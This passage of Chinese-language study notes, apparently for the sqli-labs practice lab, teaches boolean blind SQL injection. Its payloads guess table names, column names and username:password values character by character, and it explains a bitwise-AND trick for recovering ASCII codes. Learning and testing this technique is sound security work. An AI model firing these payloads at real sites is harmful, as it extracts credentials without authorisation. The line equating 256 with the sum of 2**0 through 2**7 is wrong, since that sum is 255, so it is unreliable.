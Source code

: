 - 求当前数据库表名
```basic
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+
格式为：ascii(substr(xxx limit null,1),null,1) ,对递增依次 猜解
#对security数据库中的第一个表的第一个字符进行ascii的猜解
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109 --+
#对security数据库中的第一个表的第二个字符进行ascii的猜解
```

- 求指定表中列的数量
```basic
?id=1' and (select count(column_name) from information_schema.columns where table_name='users')=20 --+
```

- 求对列名的长度
```basic
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1)) --+
#长度和前面查表名的长度一样，是2-1=1,如果是则返回页面异常，如果不是则返回界面正常，递增测试
方法二： 使用length来判断
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=2 --+
```

- dump 字段的值
```basic
?id=1' and ascii(substr((select username from security.users limit 0,1),1,1))=67--+
?id=1' and ascii(substr((select concat(username,':',password) from security.users limit 0,1),1,1))=68--+
```
盲注一般找到注入点之后，直接上sqlmap，不会手工去dump，如果sqlmap跑不出来，那么该怎么办？
这里就要针对ascii字符集来判断，有一个特别重要的思路，利用&运算来进行按位与运算

```sql
115 => 01110011 (ascii('s'))
256 = 2 ** 0 + 2 ** 1 + 2 ** 2 + ...... + 2 ** 7
2**0 => 00000001 = 1
2**1 => 00000010 = 2
2**2 => 00000100 = 4
2**3 => 00001000 = 8
2**4 => 00010000 = 16
2**5 => 00100000 = 32
2**6 => 01000000 = 64
2**7 => 10000000 = 128

\# 我们将待求解的ascii码值与上述值进行与运算

115 & 1 => 1
115 & 2 => 2
115 & 4 => 0
115 & 8 => 0
115 & 16 => 16
115 & 32 => 32
115 & 64 => 64
115 & 128 => 0

1 + 2 + 0 + 0 + 16 + 32 + 64 + 0 = 115
```
